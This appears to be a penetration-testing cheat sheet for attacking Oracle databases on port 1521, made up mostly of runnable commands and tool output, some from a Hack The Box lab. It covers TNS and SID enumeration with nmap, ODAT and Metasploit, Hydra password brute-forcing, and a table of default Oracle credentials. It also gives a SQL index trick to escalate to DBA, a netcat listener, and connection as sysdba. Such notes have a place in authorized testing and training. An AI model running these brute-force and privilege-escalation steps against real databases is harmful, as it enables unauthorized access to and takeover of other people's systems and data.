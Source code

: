 ```yaml
---
description: >-
  Oracle Database is a multi-model database management system produced and
  marketed by Oracle Corporation.
---
```


# 1521 - Oracle DB

Port: 1521

## Commands

Check privileges:

`select * from user_role_privs;`

## Enumeration

### oscanner

Install oscanner: 

`apt-get install oscanner`   

Run oscanner: 

`oscanner -s 192.168.1.200 -P 1521`  

### tnscmd10g

Fingerprint Oracle TNS Version 

Fingerprint oracle tns: 

`tnscmd10g version -h TARGET` 

### Nmap

**Run nmap scripts against Oracle TNS:** 

`nmap -p 1521 -A TARGET` 

Find tns version:

`nmap --script=oracle-tns-version`  

**Brute force oracle user accounts** 

Identify default Oracle accounts: 

 `nmap --script=oracle-sid-brute`  

 `nmap --script=oracle-brute`  

### ODAT

[https://github.com/quentinhardy/odat](https://github.com/quentinhardy/odat

)

ODAT \(Oracle Database Attacking Tool\) is an open source penetration testing tool that tests the security of Oracle Databases remotely. 

Usage examples of ODAT: 

* You have an Oracle database listening remotely and want to find valid SIDs and credentials in order to connect to the database 
* You have a valid Oracle account on a database and want to escalate your privileges to become DBA or SYSDBA 
* You have a Oracle account and you want to execute system commands \(e.g. reverse shell\) in order to move forward on the operating system hosting the database 

Tested on Oracle Database 10g, 11g, 12c and 18c. 

**Install**: 

`apt install odat` 

**Examples**: 

#### Identify SIDs 

```text
root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82 
 
[1] (10.10.10.82:1521): Searching valid SIDs 
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server 
[+] 'XE' is a valid SID. Continue... 
[+] 'XEXDB' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:49 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521) 
100% |#####################################################################################################################################################| Time: 00:00:09 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521) 
[+] 'XE' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:20 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB 
```

### 

### Metasploit

#### sid bruteforce:

```text
msf auxiliary(admin/oracle/sid_brute) > run 

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt... 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID '' 
[*] 10.10.10.82:1521 - Done with brute force... 
[*] Auxiliary module execution completed 
```

#### tns version:

```text
auxiliary/scanner/oracle/tnslsnr_version
```

#### sid enum:

```text
auxiliary/scanner/oracle/sid_enum
```

#### index priv esc:

```text
msf > use auxiliary/admin/oracle/oracle_index_privesc
msf auxiliary(oracle_index_privesc) > show actions
    ...actions...
msf auxiliary(oracle_index_privesc) > set ACTION < action-name >
msf auxiliary(oracle_index_privesc) > show options
    ...show and set options...
msf auxiliary(oracle_index_privesc) > run
```

### Hydra

brute-force a listener password if exists:

```text
./hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

## Default accounts

| Username  | Password  |
| :--- | :--- |
| SYSTEM  | MANAGER  |
| SYS  | CHANGE\_ON\_INSTALL  |
| DBSNMP  | DBSNMP  |
| SCOTT  | TIGER  |
| PCMS\_SYS | PCMS\_SYS |
| WMSYS | WMSYS |
| OUTLN | OUTLN |

**Try lowercase as well**

## Connecting to Oracle DB

To interact with Oracle from our Kali box, there are three tools that can come in handy. sqlplus is required for odat to work properly: 

Sqlplus will be installed with odat. So just install odat \(apt install odat\) 

### Connect as normal user:

```text
root@kali:~/hackthebox/silo# sqlplus SCOTT/tiger@10.10.10.82:1521/XE 
SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018 

Copyright (c) 1982, 2016, Oracle.  All rights reserved. 

Connected to: 
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production 
 
SQL> 
```

### Connect as sysdba:

```text
sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
```

## Privilege escalation

**Can also do the Metasploit module**

 ****Oracle priv esc and obtain DBA access: 

**Run netcat**: netcat -nvlp 443 code 

`SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));` 

**Run the exploit with a select query:** 

`SQL> Select * from session_privs;`  

**Remove the exploit using:** 

`drop index exploit_1337;` 

## Resources:

[https://medium.com/@netscylla/oracle-hacks-part-2-b1ccb1916d1f](https://medium.com/@netscylla/oracle-hacks-part-2-b1ccb1916d1f)

